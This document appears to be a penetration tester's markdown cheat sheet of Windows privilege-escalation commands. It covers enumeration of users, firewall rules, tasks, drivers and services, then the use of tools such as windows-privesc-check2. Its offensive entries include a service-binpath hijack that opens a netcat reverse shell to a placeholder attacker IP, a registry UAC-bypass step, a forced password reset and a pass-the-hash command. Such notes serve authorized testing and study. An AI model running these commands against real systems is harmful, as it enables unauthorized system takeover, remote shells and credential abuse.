 ###### Basic Privesc Emumeration for Windows
```
whoami
whoami /priv
---
net user // Discover other users
---
net user <user> // Enumerate info for selected user
---
hostname
---
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" // View System Info
---
tasklist /SVC // Processes
---
ipconfig /all
---
route print // network routing tables 
---
netstat -ano // Veiw active network connections 
a = all active TCP connection
n = ip/ports
o = PID
```
###### Enumerating Firewalls for Windows
```
netsh advfirewall show currentprofile // Current firewall profile
---
netsh advfirewall firewall show rule name=all // Firewall rules
```
###### Enumerating Scheduled Tasks for Windows
```
schtasks /query /fo LIST /v // List Tasks
```
###### Enumerating installed applications for Windows
```
wmic product get name, version, vendor // Info on installed apps
---
wmic qfe get Caption, Description, HotFixID, InstalledOn // Full Sys updates
```
###### Enumerating R/W files for Windows
```
[Download accesschk.exe onto Target]
accesschk.exe -uws "Everyone" "<Path to DIR>" // Will check for w-W files 
---
[powershell]
Get-ChildItem "<PATH TO DIR>" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```
###### Enumerating Unmounted Disks for Windows
```
mountvol
```
###### Enumerating Drivers and Kernal Modules for Windows
```
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start mod
e', Path // Lists display name, start mode and path
---
 Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"} //Target specific drivers
```
###### AutoElevate Binaries for Windows
```
regedit //opens Registry Editor 
---
reg query HKEY_CURRENT_USER
---
REG ADD HKCU\path\to\Shell\Open\command /v DelegateExecute /t REG_SZ
```
###### 
Insecure file permissions for Windows
```
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'} // shows service/path
---

```
***
#### The Automated Stuff
###### Windows
```
windows-privesc-check2.exe // http://pentestmonkey.net/windows-privesc-check

windows-privesc-check2.exe--dump -G Dump Groups 
---
windows-privesc-check2.exe --dump -G -H // Dump Groups & Shares
---
windows-privesc-check2.exe --dump -M -V // Dump password policy & privs for users and groups
---
windows-privesc-check2.exe -A // All files and Dirs
--
windows-privesc-check2.exe --pyshell // o.O 
---
procmon.exe
---
sigcheck.exe -a -m C:\path\to\binarie
---
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe YOUR_IP 1234 -e C:\WINDOWS\System32\cmd.exe"  //XP SP1 2001 
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
```
###### Windows
```
[Examples]

whoami /groups // Look for Medium integrity level
-
net user admin NewPassword // Try set new password (Most likely will fail)
-
powershell.exe Start-Process cmd.exe -Verb runAs // Privesc
```
```
wmic service where caption="Service" get name, caption, state, startmode // Check start mode and active status
---
pth-winexe -U <user>%<lm hash>:<NTLM hash> //<Target IP> cmd /// Pass the Hash 
```
